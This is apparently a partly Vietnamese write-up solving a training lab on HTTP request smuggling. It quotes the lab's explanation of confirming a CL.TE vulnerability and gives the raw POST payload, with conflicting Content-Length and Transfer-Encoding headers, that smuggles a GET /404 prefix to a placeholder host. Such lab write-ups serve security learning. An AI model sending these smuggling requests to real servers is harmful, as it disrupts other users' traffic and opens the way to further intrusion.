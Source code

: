 
![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_TEheader_solve.png?raw=true)


### Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.
```

Bài lab này yêu cầu chúng ta chứng thực xem có lỗ hổng hay không bằng cách để nó phản hồi lại bằng 404 Not Found.

Đầu tiên, chúng ta có lý thuyết như sau : 

#### Confirming CL.TE vulnerabilities using differential responses
```
To confirm a CL.TE vulnerability, you would send an attack request like this:

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x

If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:

GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling

Since this request now contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it.
```
Dựa trên như lý thuyết thì chúng ta phải gửi 1 đoạn payload như sau ; 
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
```